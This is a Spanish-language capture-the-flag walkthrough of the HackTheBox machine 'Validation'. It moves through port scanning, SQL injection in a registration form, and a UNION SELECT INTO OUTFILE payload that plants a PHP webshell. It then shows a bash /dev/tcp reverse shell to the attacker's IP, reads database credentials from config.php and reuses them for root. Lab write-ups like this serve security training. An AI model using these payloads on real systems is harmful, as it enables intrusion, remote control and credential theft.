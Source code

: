 # Validation

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 26 de enero de 2025 20:21
IP: 10.10.11.116

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Que sistema es

```bash
whichSystem.py 10.10.11.116

	10.10.11.116 (ttl -> 63): Linux
```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG targeted

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p22,80,4566,8080 -sCV 10.10.11.116 -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Identificación de vulnerabilidades**
    - 22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
    - 80/tcp   open  http    Apache httpd 2.4.48
    - 4566/tcp open  http    nginx
    - 8080/tcp open  http    nginx

- **Enumeración web**
    
    
    Whatweb
    
    ```bash
    whatweb 10.10.11.116
    ❯ whatweb 10.10.11.116
    http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
    
    ```
    

Vemos un formulario web

![image.png](<imagenes/image 110.png>)

En primer lugar, hacemos una captura de la peticion del formulario y observamos dos campos: username y country

Probamos a inyectar una comilla y vemos que salta un error en la web : 

```bash
Brazil’
```

![image.png](<imagenes/837b1a54-af10-481c-a6c8-0bc031312a36.png>)

![image.png](<imagenes/image 111.png>)

Vemos que el campo es vulnerable. Probamos a ver si cerrando la consulta sigue mostrando error y vemos que no

```bash

username=test&country=Brazil' -- -
```

![image.png](<imagenes/image 112.png>)

Entonces lo que probamos es a inyectar un payload en la consulta : Explotacion 1

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Explotación 1

Webshell en consulta SQL

```bash
Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE
'/var/www/html/shell.php'-- -
```

Accedemos a la pagina y muesta un error

![image.png](<imagenes/image 113.png>)

Accedemos ahora a :

```bash
http://10.10.11.116/shell.php?cmd=id
```

![image.png](<imagenes/image 114.png>)

Obtenemos RCE

Vamos a tratar de establecer una conexión :

### Explotación 2

Maquina atacante (10.10.16.15)

```bash
nc -lvnp 4444
```

```bash
 curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.15/4444 0>&1"'
```

Obtenemos la rever

Tratamiento de la shell

```bash
script -c bash /dev/null
Ctr+z
stty raw echo; fg
reset xter
exort TERM=XTERM
export SHELL=BASH

```

```bash
 www-data@validation:/var/www/html$ cd /home                                     
 www-data@validation:/home$ ls                                                   
htb
 www-data@validation:/home$ cd htb/                                              
 www-data@validation:/home/htb$ ls                                               
user.txt
 www-data@validation:/home/htb$ cat user.txt                                     
c7080c211cb057271c11a2a99e353cfc
```

### Explotación posterior

<aside>
💡 Accedemos con las credenciales encontradas

</aside>

### Escalada de privilegios

```bash
  www-data@validation:/var/www$ cd html/                                          
 www-data@validation:/var/www/html$ ls                                           
account.php  config.php  css  index.php  js
 www-data@validation:/var/www/html$ ls                                           
account.php  config.php  css  index.php  js
 www-data@validation:/var/www/html$ cat c                                        
cat: c: No such file or directory
 www-data@validation:/var/www/html$ cat config.php                               
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
-data@validation:/var/www/html$ su root                                      
Password: 
root@validation:/var/www/html# cd /root
root@validation:~#                                                                       root@validation:~# ls
config  ipp.ko  root.txt  snap
root@validation:~#                                                                       root@validation:~# cat root.txt 
fed0181e2ccf9450d4956bc2302b3734
root@validation:~#                                                                       root@validation:~# 
```

## Conclusión

<aside>
💡 Maquina que he tenido que mirar wrtite up pues no sabia como continuar. He empezado usando SQLMap y me he estancado con ello.

</aside>